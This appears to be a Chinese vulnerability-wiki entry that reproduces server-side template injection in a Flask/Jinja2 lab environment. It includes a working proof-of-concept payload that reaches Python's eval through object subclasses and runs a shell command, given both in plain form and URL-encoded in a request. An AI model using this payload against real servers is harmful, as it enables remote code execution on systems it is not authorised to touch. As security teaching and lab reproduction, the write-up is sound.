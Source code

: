 Flask / jinja2 SSTI 服务端模版注入攻击
======================================

一、漏洞简介
------------

`SSTI`即服务端模版注入攻击。由于程序员代码编写不当，导致用户输入可以修改服务端模版的执行逻辑，从而造成`XSS`,任意文件读取，代码执行等一系列问题。

二、漏洞影响
------------

三、复现过程
------------

编译及运行测试环境：

    docker-compose build
    docker-compose up -d

访问`http://www.0-sec.org/?name={{233*233}}`，得到54289，说明SSTI漏洞存在。

获取eval函数并执行任意python代码的POC：

    {% for c in [].__class__.__base__.__subclasses__() %}
    {% if c.__name__ == 'catch_warnings' %}
      {% for b in c.__init__.__globals__.values() %}
      {% if b.__class__ == {}.__class__ %}
        {% if 'eval' in b.keys() %}
          {{ b['eval']('__import__("os").popen("id").read()') }}
        {% endif %}
      {% endif %}
      {% endfor %}
    {% endif %}
    {% endfor %}

访问`http://www.0-sec.org:8000/?name=%7B%25%20for%20c%20in%20%5B%5D.__class__.__base__.__subclasses__()%20%25%7D%0A%7B%25%20if%20c.__name__%20%3D%3D%20%27catch_warnings%27%20%25%7D%0A%20%20%7B%25%20for%20b%20in%20c.__init__.__globals__.values()%20%25%7D%0A%20%20%7B%25%20if%20b.__class__%20%3D%3D%20%7B%7D.__class__%20%25%7D%0A%20%20%20%20%7B%25%20if%20%27eval%27%20in%20b.keys()%20%25%7D%0A%20%20%20%20%20%20%7B%7B%20b%5B%27eval%27%5D(%27__import__(%22os%22).popen(%22id%22).read()%27)%20%7D%7D%0A%20%20%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endfor%20%25%7D%0A%7B%25%20endif%20%25%7D%0A%7B%25%20endfor%20%25%7D`，得到执行结果：

![](/Users/aresx/Documents/VulWiki/.resource/Jinja2SSTI服务端模版注入攻击/media/rId24.png)

参考链接
--------

> https://drops.org.cn/Python/flask-jinja2-ssti.html\#directory072591889128396616
>
> https://vulhub.org/\#/environments/flask/ssti/
